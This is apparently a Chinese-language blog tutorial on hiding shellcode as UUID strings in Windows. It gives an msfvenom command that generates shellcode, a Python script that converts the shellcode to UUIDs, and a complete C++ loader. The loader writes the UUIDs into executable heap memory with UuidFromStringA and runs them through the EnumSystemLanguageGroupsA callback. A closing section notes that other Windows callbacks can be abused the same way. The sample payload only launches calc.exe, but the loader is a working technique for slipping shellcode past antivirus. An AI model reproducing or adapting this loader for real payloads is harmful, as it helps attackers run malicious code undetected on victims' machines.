



代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 UUID

通用唯一标识符（universally unique identifier, UUID）是一个128位的用于在计算机系统中以识别信息的数目。在Windows中也有使用GUID来标识唯一对象。 — 来源：[维基百科](https://en.wikipedia.org/wiki/Universally_unique_identifier)

关于Windows中的GUID也等同于UUID，先看一下结构：

```c++
typedef struct _GUID {
  unsigned long  Data1; // 4字节
  unsigned short Data2; // 2字节
  unsigned short Data3; // 2字节
  unsigned char  Data4[8]; // 8字节
} GUID;
```

总和一共16字节，16*8 = 128位。


## 0x02 与UUID相关的Windows API


```c++
RPC_STATUS UuidFromString(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

功能：将字符串UUID转换为UUID结构。

```c++
RPC_STATUS UuidCreate(
  UUID *Uuid
);
```

功能：创建UUID结构。

```c++
int UuidEqual(
  UUID       *Uuid1,
  UUID       *Uuid2,
  RPC_STATUS *Status
);
```

功能：判断两个UUID是否相等。

通过URL查看：https://docs.microsoft.com/en-us/windows/win32/rpc/rpcdce/ns-rpcdce-uuid

UUID 代表了 -> `typedef GUID UUID;`

## 0x03 UUID 测试

### 生成Shellcode

```
./msfvenom -p windows/exec CMD=calc.exe -b '\xfc\xe8' -f raw -o /tmp/shellcode.bin
```

### Bin2UUID

生成脚本：

```py
from uuid import UUID
import os
import sys

# Usage: python3 binToUUIDs.py shellcode.bin [--print]

print("""
  ____  _    _______    _    _ _    _ _____ _____       
 |  _ \(_)  |__   __|  | |  | | |  | |_   _|  __ \      
 | |_) |_ _ __ | | ___ | |  | | |  | | | | | |  | |___  
 |  _ <| | '_ \| |/ _ \| |  | | |  | | | | | |  | / __| 
 | |_) | | | | | | (_) | |__| | |__| |_| |_| |__| \__ \ 
 |____/|_|_| |_|_|\___/ \____/ \____/|_____|_____/|___/
\n""")

with open(sys.argv[1], "rb") as f:
    bin = f.read()

if len(sys.argv) > 2 and sys.argv[2] == "--print":
    outputMapping = True
else:
    outputMapping = False

offset = 0

print("Length of shellcode: {} bytes\n".format(len(bin)))

out = ""

while(offset < len(bin)):
    countOfBytesToConvert = len(bin[offset:])
    if countOfBytesToConvert < 16:
        ZerosToAdd = 16 - countOfBytesToConvert
        byteString = bin[offset:] + (b'\x00'* ZerosToAdd)
        uuid = UUID(bytes_le=byteString)
    else:
        byteString = bin[offset:offset+16]
        uuid = UUID(bytes_le=byteString)
    offset+=16

    out += "\"{}\",\n".format(uuid)
    
    if outputMapping:
        print("{} -> {}".format(byteString, uuid))

with open(sys.argv[1] + "UUIDs", "w") as f:
    f.write(out)

print("Outputted to: {}".format(sys.argv[1] + "UUIDs"))
```



### 生成测试样本

```c++
#include <Windows.h>
#include <rpc.h>
#pragma comment(lib,"Rpcrt4.lib")

const char * buf[] = {
	"4baf01bd-dbdd-d9de-7424-f45a33c9b131",
	"83136a31-04c2-6a03-0e4d-be21f81341da",
	"3fcb73f8-b3c9-34af-7904-bb1975efe989",
	"bd259d0e-28a7-f010-3800-6093ba5bb573",
	"72c89383-cec4-2621-9d85-94d7aad02453",
	"802cf5e0-f4b0-171d-cbae-bd9918dbf781",
	"394ee67d-9cb5-eb50-845d-fed229acfe13",
	"6a754f8d-f2ee-a98e-8d28-1a2a35babc96",
	"5c5a6fc4-c4ca-3a28-cedb-fd30ea500097",
	"3327227b-f020-6246-8c57-76746f07d2fe",
	"5d6f5c9d-a3cb-dbfd-b9a4-fde3edcccc68",
	"bad08a62-64c7-e79b-61ed-4272307075a8",
	"59f68d76-6a06-2be6-0336-a0c0792745e7",
	"844c482e-dab1-650c-545b-b67900000000"
};


int main(int argc, char* argv[]) {

	int dwNum = sizeof(buf) / sizeof(buf[0]);

	HANDLE hMemory = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	if (hMemory == NULL) {
		return -1;
	}
	PVOID pMemory = HeapAlloc(hMemory, 0, 1024);
	
	DWORD_PTR CodePtr = (DWORD_PTR)pMemory;

	for (size_t i = 0; i < dwNum; i++)
	{
		if (CodePtr == NULL) {
			break;
		}
		RPC_STATUS	status = UuidFromStringA(RPC_CSTR(buf[i]), (UUID*)CodePtr);
		if (status != RPC_S_OK) {

			return -1;
		}
		CodePtr += 16;
	}

	if (pMemory == NULL) {
		return -1;
	}
	if (EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)pMemory, LGRPID_INSTALLED, NULL) == FALSE) {
		// 加载成功
		return 0;
	}
	return 0;
}
```




## 0x04 Windows CALL BACK函数

CALL BACK意为回调，是定义一个函数，由系统某个事件或用户的动作自动触发的函数，因此调用者不是用户。

通过MSDN直接搜索Callback/Proc关键字就能发现一些回调函数：



例如：

```c++

HINTERNET hOpen;                       // Root HINTERNET handle
INTERNET_STATUS_CALLBACK iscCallback;  // Holds the callback function

// Create the root HINTERNET handle.
hOpen = InternetOpen( TEXT("Test Application"),
                      INTERNET_OPEN_TYPE_PRECONFIG,
                      NULL, NULL, 0);

// Set the status callback function.
iscCallback = InternetSetStatusCallback( hOpen, (INTERNET_STATUS_CALLBACK)CallMaster );

void CALLBACK CallMaster( HINTERNET,
    DWORD_PTR,
    DWORD,
    LPVOID,
    DWORD
);

```

如果CallMaster指向的是一块可执行属性的内存，那么就可以加载Shellcode。

这篇文章中介绍了如何发现其他带有回调的[Windows API](http://ropgadget.com/posts/abusing_win_functions.html)。


## 参考

- http://www.cn0sec.cn/index.php/archives/337/
- http://ropgadget.com/posts/abusing_win_functions.html